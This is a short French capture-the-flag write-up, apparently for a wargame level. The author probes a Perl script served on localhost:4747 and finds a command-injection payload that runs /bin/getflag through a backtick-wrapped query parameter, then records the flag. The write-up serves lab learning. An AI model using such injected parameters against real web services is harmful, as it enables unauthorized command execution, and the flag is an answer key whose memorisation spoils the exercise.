 # Level 04

## Recherche

j'ai un fichier perl, je pense qu'il va falloir modifier ses acces et que le fichier affiche dans une page html le flag

je pense qu'il va falloir trouver une technique pour qu'il aille chercher getflag pendant l'execution

il y a le param dans le fichier qui me rend perplexe, je ne vois pas ce qu'il faut mettre. la version html a utiliser ? le chemin de getflag ? 

------

test de la command curl pour executer le programme 

__curl -v localhost:4747__ specifie que la commande est valide, elle recoit et renvoie quelque chose

__curl localhost:4747/?x=param__ affiche param, donc le x correspond au $y. 
on peut donc trouver une solution pour y inserer autre chose

__?x="/bin/getflag"__ ne fonctionne pas

__echo `ls`__ execute ls et non pas affiche ls

__curl localhost:4747l/?x=`/bin/getflag`__ ne fonctionne pas non plus

__curl 'localhost:4747l/?x=`/bin/getflag`'__ fonctionne ! le `xxx` permet de faire comprendre que c'est une entite en soit, et le 'xxx'  permet de dire qu'il y a des char speciaux a prendre en compte

## Flag : ne2searoevaevoem4ov4ar8ap


# Sitographie

